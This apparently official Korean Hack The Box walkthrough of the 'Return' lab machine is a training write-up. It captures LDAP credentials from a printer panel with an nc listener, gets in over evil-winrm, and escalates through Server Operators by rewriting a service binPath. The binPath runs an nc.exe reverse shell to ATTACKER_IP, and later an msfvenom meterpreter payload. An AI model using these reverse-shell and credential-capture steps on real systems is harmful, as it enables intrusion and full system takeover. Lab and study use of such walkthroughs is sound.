



**날짜:** 2021년 5월 27일 / 문서 번호 D21.101.183
**작성자:** MrR3boot
**머신 제작자:** MrR3boot
**난이도:** 쉬움 (Easy)
**분류:** 공식 (Official)

### 개요 (Synopsis)
Return은 LDAP 자격 증명을 저장하는 네트워크 프린터 관리 패널을 특징으로 하는 쉬운 난이도의 Windows 머신입니다. 악의적인 LDAP 서버를 입력하여 이러한 자격 증명을 탈취할 수 있으며, 이를 통해 WinRM 서비스로 서버에 대한 초기 침투(foothold)를 얻을 수 있습니다. 사용자가 권한이 있는 그룹(privileged group)의 일원인 것으로 밝혀져, 이를 추가로 악용해 시스템 권한(system access)을 획득하게 됩니다.

### 요구 기술 (Skills Required)
* 기본 Windows 지식 (Basic Windows Knowledge)
* 초급 Active Directory 지식 (Beginner Active Directory Knowledge)

### 습득 기술 (Skills Learned)
* 네트워크 프린터 악용 (Network Printer Abuse)
* Server Operators 그룹 악용 (Server Operators Group Abuse)

---

## 열거 (Enumeration)

### Nmap
포트 스캔으로 시작해 보겠습니다.

```bash
ports=$(nmap -p- --min-rate 1000 -T4 -Pn TARGET_IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC TARGET_IP
```

```text
nmap -p$ports -sV -sC TARGET_IP  
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-07 05:19 EDT
Nmap scan report for TARGET_IP
Host is up (0.21s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-07 09:37:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-07T09:38:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m08s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.11 seconds
```

Nmap 출력 결과를 보면 타겟은 포트 80(Internet Information Services), 445(SMB), 5985(Windows Remote Management)가 열려 있는 Windows 머신임을 알 수 있습니다.

### SMB
`enum4linux` 도구를 사용하여 SMB 서비스를 열거해 봅시다.

```bash
enum4linux -a TARGET_IP
<SNIP>
Domain Name: RETURN
Domain Sid: S-1-5-21-3750359090-2939318659-876128439
[+] Host is part of a domain (not a workgroup)
<SNIP>
```

이를 통해 이 호스트가 `RETURN` 도메인의 일부임을 알 수 있습니다. SMB는 NULL 또는 게스트 세션을 허용하지 않으므로 웹사이트로 주의를 돌려보겠습니다.

### IIS
웹사이트에 접속해 보면 기업용 Canon, Xerox, Epson 복합기 기기에서 볼 수 있는 것과 같은 프린터 관리 패널이 나타납니다.


`Settings(설정)` 메뉴로 이동하면 사용자 이름과 도메인 이름이 노출되어 있습니다.



* **Server Address:** printer.return.local
* **Server Port:** 389
* **Username:** svc-printer
* **Password:** *******

---

## 초기 침투 (Foothold)

이러한 기기들은 프린터가 Active Directory에서 사용자 목록을 쿼리하고 스캔한 파일을 사용자의 네트워크 드라이브에 저장할 수 있도록 LDAP 및 SMB 자격 증명을 내부에 저장합니다. 이러한 구성 페이지에서는 일반적으로 도메인 컨트롤러나 파일 서버를 지정할 수 있게 되어 있습니다.

포트 389(LDAP)에 리스너(listener)를 띄우고 `Server Address` 필드에 우리의 `tun0` IP 주소를 지정해 봅시다.

```bash
sudo nc -lvnp 389
listening on [any] 389
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 63864
0* %return\svc-printer
1edFg43012!!
```

연결이 수신되고 `svc-printer`의 자격 증명이 그대로 드러납니다. 포트 스캔에서 WinRM 포트가 열려 있는 것을 확인했으므로, `evil-winrm` 도구를 사용하여 이 서비스에 연결해 봅시다.

```bash
gem install evil-winrm
evil-winrm -i TARGET_IP -u svc-printer -p '1edFg43012!!'
```

```powershell
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

---

## 권한 상승 (Privilege Escalation)

그룹 멤버십을 열거해 보면 `svc-printer`가 `Server Operators` 그룹의 일원임을 알 수 있습니다.

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
<SNIP>

Logon hours allowed          All

Local Group Memberships      *Print Operators       *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

해당 그룹의 멤버는 시스템 서비스를 시작하고 중지할 수 있는 권한이 있습니다. 이 권한을 이용해 서비스 바이너리 경로를 수정하여 리버스 쉘(reverse shell)을 얻어보겠습니다.

```powershell
upload /usr/share/windows-resources/binaries/nc.exe
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe ATTACKER_IP 1234"
```

포트 1234에 리스너를 열고 아래 명령을 실행하여 리버스 쉘을 획득합니다.

```powershell
sc.exe stop vss
sc.exe start vss
```

```bash
nc -vlnp 1234
listening on [any] 1234
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 49727
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

위에서 얻은 쉘은 불안정해서 몇 초 후에 바로 끊어질 수 있습니다. 더 효율적인 방법은 `meterpreter` 쉘을 얻은 다음 더 안정적인 프로세스로 빠르게 마이그레이션하는 것입니다.

`msfvenom`을 사용하여 Windows 원격 호스트용 meterpreter 리버스 쉘 실행 파일(payload)을 생성합니다.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
ls
shell.exe
```

현재 띄워둔 Evil-WinRM 쉘을 사용하여 이 실행 파일을 원격 호스트에 업로드합니다.

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload shell.exe
Info: Uploading shell.exe to C:\Users\svc-printer\Desktop\shell.exe
Data: 98400 bytes of 98400 bytes copied
Info: Upload successful!
```

다음으로, Metasploit 콘솔을 열고 Windows 타겟에서 리버스 쉘 세션을 수신할 리스너를 구성합니다.

```bash
msfconsole
```

손상된 시스템에서 들어오는 연결을 수신하는 데 사용되는 `multi/handler` 익스플로잇 모듈을 선택합니다.

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) >
```

공격자의 머신과 타겟 간에 리버스 TCP 연결을 설정할 수 있도록 페이로드를 `windows/meterpreter/reverse_tcp`로 설정합니다.

```bash
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST ATTACKER_IP
LHOST => ATTACKER_IP
msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
```

`run` 명령을 사용하여 리스너를 시작합니다.

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on ATTACKER_IP:1337
```

기존 Evil-WinRM 쉘을 사용하여 서비스 바이너리 경로를 방금 업로드한 `shell.exe`로 수정합니다.

```powershell
*Evil-WinRM* PS C:\> sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"
[SC] ChangeServiceConfig SUCCESS
```

포트 1337에서 이미 Metasploit 리스너가 실행 중이므로, 이제 아래 명령을 실행하여 서비스를 시작해 리버스 쉘을 얻습니다.

```powershell
*Evil-WinRM* PS C:\> sc.exe stop vss
*Evil-WinRM* PS C:\> sc.exe start vss
```

meterpreter 세션을 얻은 후, `ps` 명령을 사용하여 원격 장비에서 실행 중인 프로세스 목록을 나열합니다.

```text
meterpreter > ps
Process List
============

PID   PPID  Name               Arch  Session  User                          Path
---   ----  ----               ----  -------  ----                          ----
0     0     [System Process]
4     0     System             x64   0
88    4     Registry           x64   0
268   4     smss.exe           x64   0
[** SNIP **]
3172  616   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```

`NT AUTHORITY\SYSTEM` 권한으로 실행 중인 적절한 프로세스를 선택하여 마이그레이션합니다. 이 예시에서는 PID가 3172인 프로세스로 마이그레이션할 것입니다.

```text
meterpreter > migrate 3172
[*] Migrating from 3888 to 3172...
[*] Migration completed successfully.
```

이제 안정적인 쉘을 생성하고 루트 플래그(root flag)를 가져올 수 있습니다.

```text
meterpreter > shell
Process 4284 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
